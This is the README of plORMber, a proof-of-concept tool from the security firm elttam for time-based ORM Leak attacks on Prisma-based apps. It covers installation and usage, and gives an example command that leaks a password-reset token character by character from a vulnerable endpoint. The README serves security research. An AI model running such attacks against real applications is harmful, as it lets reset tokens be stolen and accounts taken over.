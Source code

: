 # plORMber

A proof-of-concept tool for exploiting ORM Leak time-based vulnerabilities. The features of this tool are currently very limited, but can be used to quickly implement a time-based ORM Leak attack.

See the accompanying [blog article](https://www.elttam.com/blog/plormbing-your-prisma-orm/) for an overview on how `plormber` works.

Feel free to fork this project for further development as long that you acknowledge [elttam](https://www.elttam.com/) as the original creators.

---
## Features

* Time-based exploitation of `prisma`
* SDK for developing ORM leak exploits

---
## Installation

*Virtual environment install*
```bash
# For installing to a virtual environment
python3 -m venv venv
source venv/bin/activate

# Install plormber
pip install .
```

*Docker install*
```bash
docker compose build
```

---
## Usage

*Virtual environment*
```bash
plormber --help
```

*Docker*
```bash
docker compose run --rm plormber --help
```

---

## Prisma Example

*Prisma time-based attack with payloads as arguments*
```bash
plormber prisma-contains \
    --chars '0123456789abcdef' \
    --base-query-json '{"query": {PAYLOAD}}' \
    --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
    --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
    --verbose-stats \
    https://some.vuln.app/articles/time-based;
```

---
## Custom `plormber` Attacks

See [CUSTOM_ATTACKS.md for documentation about implementing custom `plormber` attacks](./CUSTOM_ATTACKS.md)

---

## Planned Future Features

* More exploitation methods.
* Burp Suite plugin